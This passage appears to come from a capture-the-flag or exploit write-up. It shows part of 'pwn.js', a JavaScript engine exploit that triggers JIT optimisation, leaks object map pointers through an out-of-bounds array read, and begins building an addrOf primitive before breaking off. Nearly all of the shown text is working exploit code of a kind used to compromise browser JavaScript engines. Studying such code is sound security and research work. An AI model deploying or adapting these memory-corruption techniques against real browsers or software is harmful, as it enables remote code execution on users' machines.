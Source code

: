 {% code title="pwn.js" %}
```javascript
// ===============================================
// STARTERS AND UTILS
// ===============================================
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

// function dp(x){ %DebugPrint(x); }
// function bp() { %SystemBreak(); }

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

// ===============================================
// LEAK MAPS
// ===============================================
var float_arr = [1.2, 1.3, 1.4, 1.4];
var obj_arr = [];
function leak_map(x, arr){
    let idx = 0;

    if (arr.length == 0) {
        return 0;
    }

    if (x == "pwn") {
        idx = 12;
    }
    return arr[idx];
}

// bit brute as well cause, sometimes it doesnt optimize
var tmp = 0x0;
for (var i = 0; i < 0x100000; i++) {
    let t = leak_map("", float_arr);
    tmp += t;
}
console.log("[+] just for the optimization to happen: 0x" + ftoi(tmp).toString(16)); 

firing_range_maps = [2.1, 2.2, 2.3, 2.4];
victim_maps = [2.1, 2.2, 2.3, 2.4];

var float_arr_map  = itof(ftoi(leak_map("pwn", firing_range_maps)) >> 32n);
console.log("[+] float_arr_map: 0x" + ftoi(float_arr_map).toString(16));
var obj_arr_map = itof(ftoi(float_arr_map) - 0x900n);
console.log("[*] obj_arr_map: 0x" + ftoi(obj_arr_map).toString(16));

// ===============================================
// ADDRESS OF PRIMITIVE
// ===============================================
function pre_addrOf(x, arr) {
    let idx = 0;

    if (arr.length == 0) {
```